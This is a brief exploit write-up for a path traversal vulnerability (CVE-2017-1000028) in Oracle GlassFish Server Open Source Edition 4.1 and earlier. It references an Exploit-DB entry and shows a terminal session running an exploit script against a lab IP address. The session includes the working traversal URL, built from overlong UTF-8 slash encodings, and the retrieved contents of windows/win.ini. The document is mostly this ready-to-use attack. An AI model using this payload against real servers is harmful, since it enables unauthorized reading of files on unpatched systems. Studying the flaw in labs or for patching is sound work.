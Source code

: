 # Path Traversal in Oracle GlassFish Server Open Source Edition

- Vendor: Oracle Corporation (Project sponsored by Oracle)
- Product: GlassFish Server Open Source Edition
- Version affected:  4.1 and prior versions

Reference: https://www.exploit-db.com/exploits/39441

```python
┌──(kali⚡lof1)-[~/Documents/PG]
└─$ python3 GlassFish_CVE-2017-1000028.py --ip 192.168.240.168 --path windows/win.ini

Requested URL: http://192.168.240.168:4848/theme/META-INF/prototype%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AF..%C0%AFwindows/win.ini
Status Code: 200
Response:
; for 16-bit app support
[fonts]
[extensions]
[mci extensions]
[files]
[Mail]
MAPI=1
```
